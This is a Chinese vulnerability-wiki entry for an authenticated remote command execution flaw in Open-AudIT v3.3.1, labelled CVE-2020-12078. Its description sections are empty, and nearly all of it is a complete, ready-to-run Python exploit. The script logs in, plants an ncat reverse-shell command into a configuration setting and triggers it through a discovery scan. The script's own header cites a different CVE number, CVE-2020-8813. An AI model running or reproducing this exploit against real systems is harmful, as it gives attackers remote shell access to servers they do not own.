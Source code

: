 （CVE-2020-12078）Open-AudIT v3.3.1 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Open-AudIT v3.3.1

三、复现过程
------------

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-12078)Open-AudITv3.3.1远程命令执行漏洞/media/rId24.png)

    OpenAudIT-postauth-rce.py
    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
        print("[~] Usage : ./openaudit-exploit.py url username password ip port")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
        configuration_path = url+"/en/omk/open-audit/configuration/90"
        data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
        request.patch(configuration_path, data)
        print("[+] Payload injected in settings")


    def start_discovery():
        discovery_path = url+"/en/omk/open-audit/discoveries/create"
        post_discovery_path = url+"/en/omk/open-audit/discoveries"
        scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
        req = request.get(discovery_path)

        response = req.text
        soup = BeautifulSoup(response, "html5lib")
        token = soup.findAll('input')[5].get("value")
        buttons = soup.findAll("button")
        headers = {"Referer" : discovery_path}
        request_data = {
        "data[attributes][name]":scan_name,
        "data[attributes][other][subnet]":"10.10.10.1/24",
        "data[attributes][other][ad_server]":"",
        "data[attributes][other][ad_domain]":"",
        "submit":"",
        "data[type]":"discoveries",
        "data[access_token]":token,
        "data[attributes][complete]":"y",
        "data[attributes][org_id]":"1",
        "data[attributes][type]":"subnet",
        "data[attributes][devices_assigned_to_org]":"",
        "data[attributes][devices_assigned_to_location]":"",
        "data[attributes][other][nmap][discovery_scan_option_id]":"1",
        "data[attributes][other][nmap][ping]":"y",
        "data[attributes][other][nmap][service_version]":"n",
        "data[attributes][other][nmap][open|filtered]":"n",
        "data[attributes][other][nmap][filtered]":"n",
        "data[attributes][other][nmap][timing]":"4",
        "data[attributes][other][nmap][nmap_tcp_ports]":"0",
        "data[attributes][other][nmap][nmap_udp_ports]":"0",
        "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
        "data[attributes][other][nmap][udp_ports]":"161",
        "data[attributes][other][nmap][timeout]":"",
        "data[attributes][other][nmap][exclude_tcp_ports]":"",
        "data[attributes][other][nmap][exclude_udp_ports]":"",
        "data[attributes][other][nmap][exclude_ip]":"",
        "data[attributes][other][nmap][ssh_ports]":"22",
        "data[attributes][other][match][match_dbus]":"",
        "data[attributes][other][match][match_fqdn]":"",
        "data[attributes][other][match][match_dns_fqdn]":"",
        "data[attributes][other][match][match_dns_hostname]":"",
        "data[attributes][other][match][match_hostname]":"",
        "data[attributes][other][match][match_hostname_dbus]":"",
        "data[attributes][other][match][match_hostname_serial]":"",
        "data[attributes][other][match][match_hostname_uuid]":"",
        "data[attributes][other][match][match_ip]":"",
        "data[attributes][other][match][match_ip_no_data]":"",
        "data[attributes][other][match][match_mac]":"",
        "data[attributes][other][match][match_mac_vmware]":"",
        "data[attributes][other][match][match_serial]":"",
        "data[attributes][other][match][match_serial_type]":"",
        "data[attributes][other][match][match_sysname]":"",
        "data[attributes][other][match][match_sysname_serial]":"",
        "data[attributes][other][match][match_uuid]":""

        }
        print("[+] Creating discovery ..")
        req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
        disocvery_url = url + req.headers['Location'] + "/execute"
        print("[+] Triggering payload ..")
        print("[+] Check your nc ;)")
        request.get(disocvery_url)


    def login():
        login_info = {
        "redirect_url": "/en/omk/open-audit",
        "username": username,
        "password": password
        }
        login_request = request.post(url+"/en/omk/open-audit/login", login_info)
        login_text = login_request.text
        if "There was an error authenticating" in login_text:
            return False
        else:
            return True

    if login():
        print("[+] LoggedIn Successfully")
        inject_payload()
        start_discovery()
    else:
        print("[-] Cannot login!")
